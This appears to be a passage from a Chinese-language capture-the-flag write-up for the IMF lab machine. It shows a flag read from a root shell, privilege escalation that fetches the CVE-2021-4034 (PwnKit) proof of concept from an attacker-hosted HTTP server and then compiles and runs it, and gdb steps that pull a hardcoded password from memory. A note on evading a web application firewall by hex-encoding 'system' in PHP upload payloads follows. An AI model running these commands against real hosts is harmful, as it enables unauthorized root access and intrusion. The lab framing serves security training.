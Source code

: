 
root@imf:/root# cat Flag.txt
cat Flag.txt
flag6{R2gwc3RQcm90MGMwbHM=}
Gh0stProt0c0ls

-------------
11、提权：

lsb_release -a
发现这是16.4的乌班图版本！


python -m SimpleHTTPServer 8081
wget http://10.211.55.19:8081/cve-2021-4034-poc.c
gcc cve-2021-4034-poc.c -o dayu
chmod +x dayu
./dayu

------
12、深入分析
gdb agent
disassemble main
0x080486ba <+191>:   call   0x80484e0 <strncmp@plt>
发现在内存地址80486ba处，发生了字符串比较函数，所以在那里添加了一个断点:
break *0x80486ba
随意输入1234等字符查看：
info registers
esp            0xffffd070

查看starck指针上方的四个半字的内存：
x/4xw 0xffffd070
0xffffd070:     0xffffd08e      0x0804c210      0x00000008      0xf7df390e
gdb-peda$ x/s 0xffffd08e
0xffffd08e:     "1234\n"
gdb-peda$ x/s 0x0804c210
0x804c210:      "48093572"
可以看到在断点比较函数，执行1234\n后，在内存地址0804c210中我们找到了访问程序的密码！




---------
13、教学如果写py脚本对付缓冲区溢出

参考文章：
https://zhuanlan.zhihu.com/p/387321917

脚本：
https://github.com/hum4nG0D/OSCP_Bufferovrflw_Prep
https://github.com/corelan/mona

14、拓展小知识
1）绕过waf
https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/
可以用十六进制格式对系统函数进行编码以避免检测：
我使用Cyber​​chef 工具网站将函数名称转换为十六进制，并将以下请求传递给上传表单：
https://gchq.github.io/CyberChef/#recipe=To_Hex('%5C%5Cx',0)&input=c3lzdGVt
system替换为：\x73\x79\x73\x74\x65\x6d
